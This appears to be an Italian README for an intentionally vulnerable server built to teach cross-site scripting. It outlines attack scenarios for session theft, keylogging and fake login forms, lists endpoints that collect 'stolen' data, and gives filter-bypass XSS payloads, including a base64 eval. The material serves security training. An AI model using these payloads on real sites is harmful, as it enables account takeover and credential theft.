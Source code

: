 ## 🎯 Scenari di Attacco Completi

### Scenario 1: Account Takeover tramite Stored XSS
1. Attaccante inserisce payload XSS nel sistema di commenti
2. Quando l'admin visualizza i commenti, il payload ruba il suo token di sessione
3. L'attaccante usa il token per impersonare l'admin

### Scenario 2: Data Exfiltration
1. Attaccante inserisce keylogger XSS nel guestbook
2. Tutti i visitatori che digitano sulla pagina inviano i tasti all'attaccante
3. L'attaccante raccoglie password e dati sensibili

### Scenario 3: Phishing tramite DOM Manipulation
1. Attaccante usa XSS per modificare il contenuto della pagina
2. Inserisce un form di login falso
3. Gli utenti inseriscono le credenziali nel form fasullo

## 📊 Endpoint per Monitoraggio

- `GET /stolen-data` - Visualizza tutti i dati "rubati" dagli attacchi XSS
- `GET /comments` - Visualizza tutti i commenti (stored XSS execution)
- `GET /guestbook-view` - Visualizza libro degli ospiti (stored XSS execution)
- `GET /api/users` - API per ottenere lista utenti
- `POST /clear-stolen-data` - Cancella i dati rubati

## 🔍 Tecniche di Bypass

### Filtri Base64
```javascript
<svg/onload=eval(atob('YWxlcnQoJ1hTUycpOw=='))>
```

### Event Handlers Alternativi
```javascript
<img src=x onerror=alert(1)>
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)>
```

### JavaScript senza Script Tag
```javascript
<img src="javascript:alert('XSS')">
<a href="javascript:alert('XSS')">Click me</a>
```

## 🛡️ Contromisure (NON Implementate)

Questo server è **intenzionalmente vulnerabile**. Le seguenti contromisure dovrebbero essere implementate in applicazioni reali:
